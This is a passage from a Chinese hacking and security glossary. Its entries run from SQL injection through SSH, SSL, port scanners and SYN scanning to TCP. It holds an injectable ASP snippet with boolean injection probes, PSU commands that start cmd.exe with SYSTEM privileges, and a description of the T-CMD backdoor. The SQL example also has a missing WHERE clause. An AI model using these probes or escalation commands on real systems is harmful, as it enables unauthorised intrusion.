- 执行 SQL 语句。

我们之所以常称其为脚本注入或 ASP 注入，实际上是通过脚本或 ASP 程序对数据库实行注入，脚本在其中扮演的是一个传递数据的角色。下面用 ASP 代码来进一步诠释这几个步骤：

```asp
id=request.Form("id")
set rs=Server.createobject("adodb.recordset")
sql="select * from admin id="&id
rs.open sql, conn, 1, 1
```

上面的代码有四行，而每一行恰恰对应着上面描述的过程，SQL 注入的关键就在于第一步和第三步。**请注意，SQL 语句的构成是由两部分构成的：程序设计者所设计好的 SQL 语句与用户传递过来的参数。**而当设计者没有控制好用户传递过来的参数时，恶意用户自然有可能更改原始的 SQL 语句，甚至让数据库完全被攻击者所操纵。而说到底，就是程序设计者对输入的数据没有进行有效的过滤，这也是 SQL 注入漏洞出现的本质原因。

在上面的代码中，参数 id 在从客户端得到数据后就直接进入了 SQL 语句中，之后没有对参数 id 进行任何的检查和过滤就进行数据库操作，所以恶意用户可以在 id 中输入任何的数据。

假设输入的 id 等于 3，那么正常情况下，用户输入 3 时到了数据库查询的时候就变成了：`select * from admin id=3`。可是恶意用户要进行注入攻击，就当然不是仅仅输入 3 了。例如我们输入 `3 and 1=1`，则就变成了：`select * from admin id=3 and 1=1`，因为 `select * from admin id=3` 和 `1=1` 都是正确的，所以执行 and 运算后结果也为真，返回正确；而当我们输入 `3 and 1=2` 时，就变成了：`select * from admin id=3 and 1=2`，因为 `select * from admin id=3` 是正确的，而 `1=2` 是错误的。因为 and 代表“且”，那根据简单的逻辑判断，这条语句就为假，那么返回的页面就是错误。利用这个真与假的判断就可以进行最简单的数据库查询。

## SSH 安全技术

SSH 是英文 Secure Shell 的缩写，它是功能强大的基于软件的网络安全解决方案，计算机每次向网络发送数据时，SSH 都会自动对其进行加密。数据到达目的地时，SSH 自动对加密数据进行解密，整个过程都是透明的。它使用了现代的安全加密算法，足以胜任大型公司任务繁重的应用程序的要求。

通过使用 SSH，用户可以把所有传输的数据进行加密，这样不仅可以避免被嗅探，其他一些攻击方式（如 `man in the middle`）也无法实现，同时也能够防止 `DNS` 欺骗和 `IP` 欺骗。使用 SSH 还有一个额外的好处，就是传输的数据是经过压缩的，所以可以加快传输的速度。SSH 有很多功能，它既可以代替 `Telnet`，又可以为 `FTP` 等协议提供一个安全的“通道”。它的工作原理如图 S-35 所示。


图 S-35

SSH 最初是由芬兰的一家公司开发的，但是因为受版权和加密算法的限制，现在很多人都转而使用 `OpenSSH`。OpenSSH 是 SSH 的替代软件，而且是免费的，可以预计将来会有越来越多的人使用它。

**SSH 是由客户端和服务端的软件组成，有两个不兼容的版本，分别是：1.x 和 2.x。**用 SSH 2.x 的客户端程序是不能连接到 SSH 1.x 的服务程序上去的。OpenSSH 2.x 同时支持 SSH 1.x 和 2.x。通过 Internet 传送密码安全可靠，这是 SSH 被认可的优点之一。

从客户端来看，SSH 提供两种级别的安全验证：第一种级别（基于口令的安全验证）只要用户知道自己账号和口令，就可以登录到远程主机。所有传输的数据都会被加密，但是不能保证用户正在连接的服务器就是你想连接的服务器。可能会有别的服务器在冒充真正的服务器，也就是受到“中间人”这种方式的攻击。

第二种级别（基于密钥的安全验证）需要依靠密钥，也就是用户必须为自己创建一对密钥，并把公用密钥放在需要访问的服务器上。如果用户要连接到 SSH 服务器上，客户端软件就会向服务器发出请求，请求用用户的密钥进行安全验证。服务器收到请求之后，先在你所在服务器的目录下寻找你的公用密钥，然后把它和你发送过来的公用密钥进行比较。如果两个密钥一致，服务器就用公用密钥加密“质询”（challenge）并把它发送给客户端软件。客户端软件收到“质询”之后就可以用你的私人密钥解密再把它发送给服务器。

用这种方式，用户必须知道自己密钥的口令。但是，与第一种级别相比，第二种级别不需要在网络上传送口令，而且“中间人”这种攻击方式也是不可能的（因为攻击者没有用户的私人密钥）。但是整个登录的过程可能需要 10 秒。

UNIX/Linux 版本的 SSH 提供了源代码，这就意味着任何人都可以对它进行修改。但是，如果用户选择它用于商业目的，那么无论使用何种版本的 SSH，用户都得确认已经注册并获得了相应权限。绝大多数 SSH 的客户端和守护进程都有一些注册限制。唯一的 SSH 通用公共注册（General Public License, GPL）版本是 lsh，它目前还是测试版。

## SSID 黑客技术基础

SSID（Service Set Identifier）是无线网络用来区分不同网络的标识符，最多可以有 32 个字符，有时候也写为 ESSID。为无线网卡设置不同的 SSID，就可以进入不同的网络。

SSID 通常由 AP 广播出来，通过 XP 自带的扫描功能可以查看当前区域内的 SSID。出于安全考虑，可以不广播 SSID，此时用户就要手工设置 SSID 才能进入相应的网络。因为无线网络无法用物理的方法进行划分，所以必须用这个标识符。简单地说，SSID 就是一个局域网的名称，只有设置为相同名称 SSID 值的电脑才能互相通信。

## SSL 安全技术

SSL 是 Secure Sockets Layer 的简称，它建立在 TCP 之上，为高层协议提供数据封装、压缩、加密等基本功能的支持。使用 SSL 可以对通信（包括电子邮件）内容进行高强度的加密，以防止他人监听用户的通信内容。SSL 是一种与 SSH 类似的技术，不过它最主要的功能是保护 Web 服务的数据传输安全。

SSL 最初为 Netscape 公司所研发，目前一般通用规格为 40 bit 的安全标准，美国则已推出 128 bit 的更高安全标准，但限制出境。只要 3.0 版本以上的 IE 或 Netscape 浏览器即可支持 SSL，它是 HTTPS 协议的基础，而 HTTPS 其实就是 SSL 的实际应用，主要用于许多电子商务网站等对安全等级要求很高的网站。当用户浏览 SSL 加密的网站时，会在浏览器的 URL 旁边显示一把小锁，同时 URL 的协议部分会变为 https，如图 S-36 所示。


图 S-36

同时，HTTPS 使用端口 443，而不是 **HTTP** 的 80 端口，并通过 **TCP/IP** 进行通信；SSL 使用 40 位关键字作为 RC4 流加密算法，这对于商业信息的加密是合适的。HTTPS 和 SSL 支持使用 X.509 数字认证，如果需要的话用户可以确认发送者是谁。

SSL 协议提供的服务主要有：

- 认证用户和服务器，确保数据发送到正确的客户机和服务器；
- 加密数据以防止数据中途被窃取；
- 维护数据的完整性，确保数据在传输过程中不被改变。

SSL 协议具体的工作流程：

### 服务器认证阶段

- 客户端向服务器发送一个开始信息“Hello”，以便开始一个新的会话连接；
- 服务器根据客户的信息确定是否需要生成新的主密钥，如需要则服务器在响应客户的“Hello”信息时将包含生成主密钥所需的信息；
- 客户根据收到的服务器响应信息，产生一个主密钥，并用服务器的公开密钥加密后传给服务器；
- 服务器恢复该主密钥，并返回给客户一个用主密钥认证的信息，以此让客户认证服务器。

### 用户认证阶段

在此之前，服务器已经通过了客户认证，这一阶段主要完成对客户的认证。经认证的服务器发送一个提问给客户，客户则返回数字签名后的提问和其公钥，从而向服务器提供认证。

### SSL VPN 安全技术

SSL VPN 即通过 SSL 进行通信的 VPN。它的发展对现有 SSL 应用是一个补充，增加了公司执行访问控制和提高了安全的级别和能力。SSL VPN 还对那些因为使用远程访问应用系统而降低公司安全性的企业有所帮助。

从属性上讲，拨号可以保证相对安全性，因为特定的电话线可以确认用户的身份。客户端/服务器和旧版本的 VPN 自身也拥有一定级别的安全保障能力，因为客户端软件是需要安装的。但是，以这样的安全策略和属性，不可否认，黑客入侵、安全威胁、身份欺诈呈增长趋势。

现在，使用 SSL VPN，安全特性已经发生了改变，人们可以通过浏览器访问应用程序。SSL VPN 的价值包括许多方面，最主要的是提高访问控制能力、安全易用以及高额的投资回报率。访问控制方面，SSL VPN 对访问控制更加有效，因为实施了用户集中化管理。所有的远程访问都是通过 SSL VPN 控制台进行控管，这样可以更加有效地监控用户使用权限，这些用户可能是公司内部员工、合作伙伴或客户。所有访问被限制在应用层，而且可以将权限细分到一个 URL 或一个文件。

### SSPORT 黑客工具

一款可视化的扫描器，如图 S-37 所示，其主要功能包括：

- 高速扫描：扫描的速度只跟 CPU 的速度有关，现在的极限速度是每秒扫 1000 个端口；
- 无极变速：在扫描的过程当中可以调节扫描速度；
- 方便易用：绿色软件，不需安装。只要把标准的 IP 数据库 copy 到软件的目录，就可以很方便地输入指定地区的 IP 段；
- 中英文界面：在简体中文系统显示中文，其他系统显示英文，适应不同的操作系统；
- 软件必须在 NT/2000/XP/2003 上使用，9x 系统下的网络功能不支持软件的扫描方式。


### STRING 类型 程序语言与开发

即字符串数据类型，它是程序语言中最常见的数据类型之一。

### SEH 程序语言与开发

SEH（Structure Exceptional Handler）即结构化异常处理。结构化异常处理是一种操作系统提供的机制，用来优化程序的结构，提供更加健壮的程序执行环境。它可以让程序员从繁杂的 BUG 调试中解放出来，其本身与语言无关。在程序设计者的程序中使用 SEH，可以让我们集中精力开发关键功能，而把程序中所可能出现的异常进行统一处理，使程序显得更加简洁且增加可读性。

### STUD_PE 应用程序

STUD_PE 是目前流行的 PE 综合工具，整合了 PEiD 0.9 壳标签数据库，可识别 435 种壳类型并检测入口点等，并且能自己添加不明壳的标签；内置十六进制编辑器，可对资源进行修改；拥有出色的文件比较功能及可视化资源查看器，可修改、替换、导出文件；还可添加函数、修改区段、查看程序进程等等。

### Sudo 操作系统及其相关

Sudo 是 Unix/Linux 平台上的一个非常有用的命令，它允许系统管理员分配给普通用户一些合理的“权利”，让他们执行一些只有超级用户或其他特许用户才能完成的任务。比如运行一些像 mount、halt、su 之类的命令，或编辑一些系统配置文件，像 /etc/mtab、/etc/samba/smb.conf 等。这样不仅减少了 root 用户的登录次数和管理时间，也提高了系统安全性。

当用户想用管理员的权限执行某个命令时，只需输入 sudo + 命令，然后输入管理员的密码后就可以以管理员的权限运行命令或程序了。Windows 也有这样的命令，如 Runas 命令。

### SUN 特定名称

即 SUN 公司，在中国内地正式的中文名为“太阳计算机系统公司”，在台湾地区的正式中文名为“升阳电脑公司”。它是世界著名的 IT 公司，开发了许多现在广为使用的程序与语言。

1982 年，SUN Microsystems 公司诞生于美国斯坦福大学校园，1986 年在美国成功上市，“SUN” 取自 Stanford Unix Networks 的英文缩写，主要产品是工作站及服务器。1992 年其推出了市场上第一台多处理器台式机 SPARCstation 10 system，并于次年进入财富 500 强。

SUN 的主要产品有操作系统 Solaris、JAVA 程序语言，不过由于 SUN 公司过于共享的精神（JAVA 是可以免费使用的）与经营理念，导致近期业绩不是十分景气。虽然近期 SUN 将 MySQL 也买进旗下，但许多人还是不看好 SUN 公司的未来。

### SUNDY 应用程序

SUNDY 是一款免费的注册表监控软件。

## SUNOS 操作系统及其相关

即 **Solaris**，SUN 操作系统的另一种叫法。

## SuperRam 应用程序

SuperRam 能让使用者方便地管理和修改其计算机的注册表设置。

## SuperScan 黑客工具

SuperScan 是由 Foundstone 开发的一款免费但功能十分强大的扫描器，特点是速度奇快，如图 S-38 所示。通过它可以查看本机 IP 地址和域名，扫描一个 IP 段的所有在线主机及其可探测到的端口号，而且可以保存和导入所有已探测的信息。目前最新版本是 SuperScan 4。

- 1. IP 和域名相互转换；
- 2. 检验目标计算机提供的服务类别；
- 3. 检验一定范围目标计算机是否在线和端口情况；
- 4. 工具自定义列表，检验目标计算机是否在线和端口情况；
- 5. 自定义要检验的端口，并可以保存为端口列表文件。

下面给出简单的使用过程：运行 SuperScan，默认为“Scan”（扫描）菜单，允许用户输入一个或多个主机名或 IP 范围，也可以选择文件下的输入地址列表。输入主机名或 IP 范围后开始扫描，点击下方的三角按钮，SuperScan 开始扫描地址，如图 S-38 所示。


图 S-38

扫描过程结束后，SuperScan 将提供一个主机列表，包含每台扫描过的主机被发现的开放端口信息。SuperScan 还有选择以 HTML 格式显示信息的功能，如图 S-39 所示。

当需要定制扫描时，可以进入“Host and Service Discovery”选项，这个选项可以定制更多扫描时的详细信息，如图 S-40 所示。

在菜单左边上方是“Host Discovery”项，默认的发现主机的方法是通过重复请求（echo requests）。通过选择和取消各种可选的扫描方式选项，用户也能够通过利用时间戳请求（timestamp）、地址屏蔽请求（address mask requests）和消息请求（information requests）来发现主机。

在菜单的底部，包括 UDP 端口扫描和 TCP 端口扫描项。通过图 S-39，注意到 SuperScan 最初开始扫描的仅仅是那几个最普通的常用端口。如果想加上特定的端口，可以在左边的 Start port 与 End port 填上相应的端口，再点“>>”按钮。


图 S-39  
图 S-40

在“Scan Options”项，如图 S-41 所示，允许进一步控制扫描进程与速度。菜单中的首选项是定制扫描过程中主机和通过审查的服务数。


图 S-41

“Scan Options”中接下来的选项能够设置主机名解析的数量，数量 1 足够了。另一个选项是获取标志（Banner Grabbing）的设置，它根据显示一些信息尝试得到远程主机的回应。默认的延迟是 8000 毫秒，如果所连接的主机较慢，这个时间就要设置得更长。

旁边的滚动条是扫描速度调节选项，能够利用它来调节 SuperScan 在发送每个包所要等待的时间。最快的扫描是调节滚动条为 0。可是，扫描速度设置为 0，扫描的准确率会下降，所以不推荐这样设置。

SuperScan 4 新增了“Tools”（工具）选项，它允许用户很快地得到许多关于一个明确主机的信息。正确输入主机名或者 IP 地址和默认的连接服务器，然后点击要得到相关信息的按钮，如 Ping 一台服务器，或 traceroute 和发送一个 HTTP 请求等，如图 S-42 所示。

后面的选项是 Windows 枚举选项，如图 S-43 所示，能够提供从单个主机到用户群组，再到协议策略的所有信息。


图 S-42　　图 S-43

## SUSE 操作系统及其相关

SUSE Linux 原来是德国的 SUSE Linux AG 公司发行维护的 Linux 发行版，是属于此公司的注册商标。2004 年这家公司被 Novell 公司收购。广义上 SUSE Linux 是一系列 Linux 发行版，目前有以下几个版本：

SUSE Linux，针对个人用户。2005 年 10 月 6 日推出的 SUSE Linux 有三个版本：“OSS 版”（完全开放源代码），“试用版”（同时包含开放源代码的程序及专属程序，如 Adobe Reader、Real Player 等，其实就是盒装零售版，也可以免费下载，可以安装在硬盘上，并且没有使用限制或限期，但不含说明手册及 Novell 提供的技术支援）及盒装零售版。

Novell 公司改进 SUSE Linux，创建了一些企业用或高级桌面应用的 Linux 版本，包括：SUSE Linux Enterprise Server（SLES）、Novell Open Enterprise Server、Novell Linux Desktop 等。需要注意的是，Novell Linux Desktop 系列的新产品以后改称 SUSE Linux Enterprise Desktop。

## SVCHOST 操作系统及其相关

SVCHOST 是 Windows 的重要系统文件，也是最常出现的系统进程之一，它用于执行 DLL 文件。这个程序对系统的正常运行是非常重要的，在基于 NT 内核的 Windows 操作系统家族中，不同版本的 Windows 系统，存在不同数量的 SVCHOST 进程，用户使用任务管理器可查看其进程数目。一般来说，Windows 2000 有两个 SVCHOST 进程，Windows XP 中则有四个或四个以上的 SVCHOST 进程，而 Windows 2003 Server 中则更多。这些 SVCHOST 进程提供很多系统服务，如：rpcss 服务（Remote Procedure Call）、dmserver 服务（Logical Disk Manager）、DHCP 服务（DHCP Client）等。

把更多的系统内置服务以共享进程方式由 SVCHOST 启动的优势在于：可以在一定程度上减少系统资源的消耗，不过也带来一定的不稳定因素。因为任何一个共享进程的服务因错误退出进程，就会导致整个进程中的所有服务都退出。如果执行重要服务的 SVCHOST 进程意外崩溃的话，那 Windows 也就被迫关闭，如图 S-44 所示。


SVCHOST 本身只是作为服务宿主，并不实现任何服务功能。需要 SVCHOST 启动的服务以动态链接库形式实现，在安装这些服务时，把服务的可执行程序指向 SVCHOST，启动这些服务时由 SVCHOST 调用相应服务的动态链接库来启动服务。而正是因为 SVCHOST 进程启动各种服务，所以病毒、木马也想尽办法来利用它，企图利用它的特性来迷惑用户，达到感染、入侵、破坏的目的。

## SWAP 操作系统及其相关

即交换空间，它是 Linux 系统中重要的内存管理机制。Linux 中的交换空间是在物理内存被充满后使用的，如果系统需要更多的内存资源，而物理内存已经充满，内存中不活跃的页就会被移到交换空间去。虽然交换空间可以为带有少量内存的机器提供帮助，但是这种方法不应该被当作对内存的取代。

交换空间位于硬盘驱动器上，它比访问物理内存要慢。交换空间可以是一个专用的交换分区（推荐的方法）、交换文件或两者的组合。

应该相当于使用者计算机内存的两倍和 32MB 这两个值中较大的一个，但是它不能超过 2048MB（2GB）。

## SXid 应用程序

SXid 是一个 **SUID/SGID** 程序的集成监控程序，被设计成用 cron 定期运行。它可以跟踪 SUID/SGID 文件或目录的变化，如果发现有什么变化，如出现了新的 SUID/SGID 文件或目录，原来不是 SUID 的程序现在变成了 SUID，或者 SUID/SGID 程序权限出现了变化，SXid 程序就会用命令行或者 e-mail 报告这些变化。

SXid 会自动地完成查看 SUID/SGID 程序的任务并把结果报告给用户，安装之后就可以不用管它了，它会自动为用户完成一切工作。

## SYMANTEC 特定名称

SYMANTEC 即赛门铁克公司，它是世界上最著名的安全公司之一。SYMANTEC 成立于 1982 年，是互联网安全技术的全球领导厂商，为企业、个人用户和服务供应商提供广泛的内容和网络安全软件及硬件解决方案。公司向全球的个人、企业及服务供应商提供如下服务：病毒防护、防火墙、VPN、风险管理、入侵检测、互联网内容及电子邮件过滤、远程管理技术及安全服务等。

赛门铁克旗下的诺顿品牌是个人安全产品全球零售市场的领导者，在行业中屡获奖项。赛门铁克公司总部设在加利福尼亚的 Cupertino，现已在 36 个国家设有分支机构。

## SYN/ACK 标志 黑客技术基础

这是 **TCP/IP** 数据包中最常使用的标志位，用于发起连接。TCP 协议是一个标准的面向连接协议，在真正通信前，必须按一定协议先建立连接，连接建立好后才能通信，通信结束后释放连接。连接建立过程称为三次握手：发起方先发送只带有 SYN 标志的数据包到目的方，目的方如果端口是打开且允许连接的，就会回应一个带 SYN 和 ACK 标志的数据包到发起方，发起方收到后再发送一个只带 ACK 标志的数据包到目的方，目的方收到后就可认为连接已经正确建立。服务器只收到 SYN 包时称为半连接状态，收到 ACK 包称为全连接，半连接和全连接服务器端都要分配一定资源来处理。详情请见 **TCP 三次握手** 词条。

## SYN 半开放扫描 黑客技术基础

一种常用的扫描方式，这种技术通常认为是“半开放”扫描，这是因为扫描程序不必打开一个完全的 TCP 连接，即只完成了三次握手的前一半（详情请见 `TCP 三次握手`）。

扫描程序发送的是一个 SYN 数据包，好像准备打开一个实际连接并等待反应一样。一个 SYN|ACK 的返回信息表示端口处于侦听状态；一个 RST 返回表示端口没有处于侦听态。如果收到一个 SYN|ACK，则扫描程序必须再发送一个 RST 信号来关闭这个连接过程。

这种扫描技术的优点在于一般不会在目标计算机上留下记录，但这种方法的一个缺点是必须要有 root 权限才能建立自己的 SYN 数据包。

## Sysadmin 权限 数据库

即 `MSSQL` 的 `SA` 管理员权限。

## Syslogd 操作系统及其相关

Syslog 是 UNIX/Linux 的一个守护进程，能够准确地对系统进行记录。实际上它也是 Unix/Linux 的跟踪记录机制，syslog 可以记录本地的一些事件，或通过网络记录另一个主机上的事件，然后将这些信息写到一个文件或设备中，也可以给用户发送一个信息。

syslog 机制主要依据两个重要文件：`/etc/syslogd`（守护进程）和 `/etc/syslog.conf` 配置文件；它的控制是由 `/etc/syslog.conf` 来做的。syslog.conf 文件指明 syslogd 程序记录日志的行为，该程序在启动时查询 syslog.conf 配置文件。该文件由不同程序或消息分类的单个条目组成，每个占一行。对每类消息提供一个选择域和一个动作域。

这些域由 Tab 隔开（注意：只能用 Tab 键来分隔，不能用空格键），其中选择域指明消息的类型和优先级；动作域指明 syslogd 接收到一个与选择标准相匹配的消息时所执行的动作。每个选项由设备和优先级组成，也就是说第一栏写“在什么情况下”及“什么程度”，然后用 Tab 键跳到下一栏继续写“符合条件以后要做什么”。当指明一个优先级时，syslogd 将记录一个拥有相同或更高优先级的消息。每行的动作域指明当选择域选择了一个给定消息后应该把它发送到哪儿。

## system 特定名称

即系统的英文。

## system.ini 操作系统及其相关

`system.ini` 是包含 Windows 初始配置信息的重要文件，其中的配置语句较复杂且对 Windows 用户十分重要。

system.ini 包含整个系统的信息（如显示卡驱动程序等），是存放 Windows 启动时所需要的重要配置信息的文件，相当于 DOS 中的 CONFIG.SYS。system.ini 能识别上百个不同命令，并且可通过 SETUP 程序或程序管理器的控制面板来设置，因此，为了高效地执行程序，Windows 用户需要了解 system.ini 的内部结构和其中关键语句的意义，才能维护好系统。

system.ini 由许多小节组成，每个小节由一个方括号括起来的小节名称，如 [boot]。每个小节包含一些格式为“关键字名=值”的设置。该文件格式为文本文档，可以用任何文本处理程序（如 DOS 中的 Edit）进行查看或修改。


## system 权限

即系统权限，Windows 中最高级的权限，在管理员（administrator）权限之上，对所有系统文件都有操作的权利（如 SAM 文件）。

Windows 权限分为四种，即客人（guest）、普通用户（user）、管理员（administrator）与系统（system），一般不允许用户使用系统权限。同时，system 权限可以直接删除 Windows 内置的 Guest 账号，而 administrator 不行。

要得到系统权限有很多方法，例如可以用 Windows 的任务计划启动 CMD，这样得到的 CMD 就是继承的系统权限，或使用一个名叫 PSU 的工具来进行提权，但前提是必须有管理员权限。

### PSU 的参数及使用方法说明

- `-p <要运行的文件名>`
  - 写全可执行文件的路径，如需带参数，请用 `" "` 括起来。
- `-i <要 su 到的进程号>`
  - 该选项可选，默认 su 到的进程为 system。

举例如下：

```bash
psu -p C:\winnt\notepad.exe
psu -p C:\winnt\notepad.exe -i 1234
psu -p "C:\winnt\system32\cmd.exe /K"
```

### T

### T-CMD（黑客工具）

T-CMD 是一个服务级后门程序，适用平台为 Windows 2000/XP。它可自动为本地/远程主机创建服务级后门，无须使用任何额外命令，支持本地/远程模式。重启后程序仍然自动运行，监听端口为 20540，只需要 Telnet 到这个端口就可以对远程主机进行控制。

### TAR 软件包（操作系统及其相关）

TAR 是 Linux 下最常见的软件发布方式，就像 Windows 下的 RAR 软件包一样，它可以将多个文件打包成一个文件。一般来说，Linux 软件有两种发布方式：一种是源代码方式，另一种是可执行文件包。而发布包大多是先用 TAR 归档，再用 GZIP 压缩，生成以 `.tar.gz` 结束的文件。TAR 也是一个用来将一组文件打包成一个 tar 格式文件的程序。

### TC++（程序语言与开发）

TC++ 是早期著名的 C++ 开发工具，全名为 Turbo C++ 3.0，它是 Borland 公司在 1992 年推出的强大 C 语言程序设计与 C++ 面向对象程序设计集成开发工具。它只需要修改一个设置选项，就能够在同一个 IDE 集成开发环境下设计和编译以标准 C 和 C++ 语法设计的程序文件。后来 Borland 公司在此基础上开发出了现在的 C++ Builder。

### TCP（黑客技术基础）

TCP 全称为 Transmission Control Protocol，即传输控制协议，是网络中最重要的协议，它与 IP 协议构成了整个互联网的基础。可以这么说，没有 TCP 也就没有互联网的今天，更没有现在丰富多彩的网络世界。

TCP 协议的主要目的是为了在主机之间实现高可靠性的数据交换传输协议，即在主机间建立一个虚拟连接，以实现高可靠性的数据包交换。可以把 TCP 比作邮差，它只保证邮件（即数据包）完整并确认其准确到达，但如何到达目的地它并不管，那是 IP 协议的事情了。

### TCP 协议提供了以下几个特性：连接性、可靠性与数据流

连接性是指通信双方必须先建立连接，才可以正式传输数据。这个过程可以以一般寄信的方式——平信和挂号为例来说明。寄平信的话就不需要对方确认，只要写好地址、贴上邮票就可以寄出，但收信人并没有和寄信者进行确认的过程，信不一定会收到；而寄挂号信，则必须双方都同意，有确认动作，这样对数据的传输就有了可靠保障。可靠性是 TCP 协议的一个重要特性，一般来说，TCP 通过下列方式来提供可靠性：

- 1. 应用数据被分割成 TCP 认为最适合发送的数据块，这和 UDP 完全不同，应用程序产生的数据报长度将保持不变。由 TCP 传递给 IP 的信息单位称为报文段或段（segment）。
- 2. 当 TCP 发出一个段后，它启动一个定时器，等待目的端确认收到这个报文段。如果不能及时收到确认，将重发这个报文段。
- 3. 当 TCP 收到发自 TCP 连接另一端的数据，它将发送一个确认。这个确认不是立即发送，通常将推迟几分之一秒。（这个过程在“TCP 三次握手”词条中有详细说明。）
- 4. TCP 将保持它首部和数据的检验和。这是一个端到端的检验和，目的是检测数据在传输过程中的任何变化。如果收到段的检验和有差错，TCP 将丢弃这个报文段且不确认收到此报文段（希望发送端超时并重发）。
- 5. TCP 包失序时，TCP 将对收到的数据进行重新排序，将收到的数据以正确顺序交给应用层。

数据流是指 TCP 协议传输时是一个接一个地传输的，而且每一个 TCP 包可以包含一长串数据，而不是一个字节接着一个字节。上面所说的一切都是由 TCP 报文格式实现的，下面看一下 TCP 包的报头是怎么样的，如图 T-1 所示。


下面给出部分报头字段的解释：

- 1. 源端口：即代表发送方所使用的端口号。
- 2. 目的端口号：代表接收方所使用的端口号。
- 3. 序号（又称顺序号）：用于表示数据的到达顺序并保证可靠性的 32 位长度字段，这也是 TCP 协议为数据提供正确传输顺序的可靠保证。
- 4. 确认序号：用于保证传输可靠性的 32 位长度字段。它用下一批应当接收数据的顺序号来代表，而且把接收到数据的最后一个顺序号加 1 后的值，变成确认序号发回。
- 5. 标志位：TCP 报头中 URG、ACK、PSH、SYN、FIN 的各个位段，称为标志代码位。该字段以一位为单位决定其含义，具体解释如下：- **URG**：当该位为 1 时，表示已经有需要紧急处理的数据了，需要紧急处理数据时则将此段设为 1。  
- **ACK**：当该位为 1 时，表示确认相应好的字段为有效。除去连接确立最初的 TCP 分段外，其他情况必须为 1。  
- **PSH**：当该位为 1 时，表明应尽快把数据传送给应用程序。该位为 0 时，表示还允许将数据放在缓冲区内储存一段时间。  
- **RST**：当该位为 1 时，表示强制切断连接。比如不能正常进行通信的情况下，要将连接强制性地初始化，就用这方法。  
- **SYN**：当该位为 1 时，表明已经有确立连接的请求。这时，就要把顺序号字段的初始值作为顺序号字段值，以便开始通信。  
- **FIN**：表示发送端完成发送任务。  

从图 T-1 中我们注意到，TCP 报文段中的数据部分是可选的。如果一方没有数据要发送，也使用没有任何数据的首部来确认收到的数据。在处理超时的许多情况下，也会发送不带任何数据的报文段。

当应用程序用 TCP 传送数据时，数据被送入协议栈中，然后逐个通过每一层直到被当作原始比特流传入网络。其中每一层对收到的数据都要增加一些首部信息（有时还要增加尾部信息），如图 T-2 所示。

TCP 传给 IP 的数据单元称作 TCP 报文段，IP 传给网络接口层的数据单元称作 IP 报文，通过以太网传输的比特流称作帧。可以从图 T-2 清楚地看到，一段数据是如何经过各协议并被封装的。


## TCP/IP 黑客技术基础

TCP/IP 是整个现代互联网的基础，准确地说，TCP/IP 是运用于因特网上的通信技术的总称。它看似只有 TCP 与 IP 两个协议，而其实它是一个协议族。TCP/IP 协议是一组包括 TCP 协议和 IP 协议、UDP（User Datagram Protocol）协议、ICMP（Internet Control Message Protocol）协议和其他一些协议的协议组。

TCP/IP 协议并不完全符合 OSI 的七层参考模型，它采用了 4 层的层级结构，每一层都呼叫它的下一层所提供的网络来完成自己的需求。这 4 层分别为：

- **应用层**：应用程序间沟通的层，如简单电子邮件传输（SMTP）、文件传输协议（FTP）、网络远程访问协议（Telnet）等。  
- **传输层**：提供节点间的数据传送服务，如传输控制协议（TCP）、用户数据报协议（UDP）等，负责把数据传输到下一层，并确认数据送达与接收。  
- **互联网层**：负责提供基本的数据封包传送功能，让每一块数据包能够到达目的主机（但不检查是否被正确接收），如网际协议（IP）。  
- **网络接口层**：对实际网络媒体的管理，定义如何使用实际网络（如 Ethernet、Serial Line 等）来传送数据。  

以上四层的关系可由图 T-3 清楚地表示。可以看到，用户进程所得到的数据大部分都是由 TCP 与 UDP 进行封装与传输的，从上到下依次经过每个协议层处理，最后通过链路层发送出去。


## TCP 连接状态 黑客技术基础

即进行 TCP 连接时所处的状态，一般在 CMD 下用 `netstat -an` 可以看到，如图 T-4 所示。

- TCP 主要有六种状态：`LISTENING`、`ESTABLISHED`、`CLOSE_WAIT`、`FIN_WAIT_1`、`FIN_WAIT_2` 及 `TIMEWAIT`。  

它们的连接状态关系如图 T-5 所示。图 T-5 中每个方框表示一个 TCP 所具有的状态，方框中的字是 TCP 标准使用的状态名，箭头旁边的字表明是什么原因引起这种变化的。上面三种不同的箭头，其中粗实线表示对客户端进程的正常变迁，粗虚线表示服务器进程的正常变迁，细线表示非典型变迁。

传输完毕再由客户机请求释放连接，中途没有出现异常关闭。

先看客户进程的正常变迁。从起点 CLOSED 状态开始，沿图 T-5 中的粗箭头往下看，下面具体描述一下各状态的关系，我们以 TCP 三次握手为例：

主机 A 是客户机，主机 B 是服务器，首先 A 发送 SYN 同步信号给 B 来请求连接，发送完毕后 A 就进入了 SYN_SENT 状态。如果 A 收到 B 发来的 SYN 和 ACK，则连接建立成功，A 进入 ESTABLISHED 状态，此时双方就可以接收和发送数据了。如果此时 A 发送数据完毕则会通知 B 释放连接。此时主机 A 发送一个 FIN 给主机 B，发送完毕后 A 进入 FIN_WAIT_1 状态。当 A 收到 B 发来的 ACK 后，则 A 进入 FIN_WAIT_2 状态；当 A 收到 B 发来的 FIN 并且自己发送 ACK 后，A 就进入了 TIME_WAIT 状态。经过两倍的报文段寿命后，A 就进入了“CLOSED”状态，此时我们用 `netstat -an` 就看不见此连接了，因为系统已经将其删除了。

```bash
C:\Documents and Settings\ch>netstat -an

Active Connections

Proto  Local Address        Foreign Address      State
TCP    0.0.0.0:135          0.0.0.0:0            LISTENING
TCP    0.0.0.0:445          0.0.0.0:0            LISTENING
TCP    0.0.0.0:4280         0.0.0.0:0            LISTENING
...
TCP    211.65.3.204:1158    59.151.31.139:53     ESTABLISHED
TCP    211.65.3.204:1359    60.28.196.71:80      ESTABLISHED
TCP    211.65.3.204:1436    60.28.196.243:86     CLOSE_WAIT
TCP    211.65.3.204:1555    219.133.49.88:443    CLOSE_WAIT
```

图 T-4


图 T-5

## TCP 三次握手 黑客技术基础

TCP 的三次握手是 TCP 协议可靠性的有力保证。TCP 是面向连接的，所谓面向连接，就是当计算机双方通信时必须先建立连接，然后传送数据。

三次握手其实就是建立连接时的三个步骤：

1. 第一步是请求端（客户端）发送一个包含 SYN（Synchronize，即同步）标志的 TCP 报文，SYN 同步报文会指明客户端使用的端口以及 TCP 连接的初始序号；  
2. 第二步，服务器在收到客户端的 SYN 报文后，将返回一个 SYN+ACK 的报文，表示客户端的请求被接受，同时 TCP 序号被加 1，ACK（Acknowledgement）即确认；  
3. 第三步，客户端也返回一个确认报文 ACK 给服务器端，同样 TCP 序列号被加 1。  

到此一个 TCP 连接完成。然后才开始通信的第二步：数据处理。总结起来可以如下表示：

- C 为客户端，S 为服务端  
- C：发送 SYN 到 S  
- S：如成功——返回给 C（SYN+ACK）  
- C：如成功——返回给 S（ACK）  

## TCPDUMP 应用程序

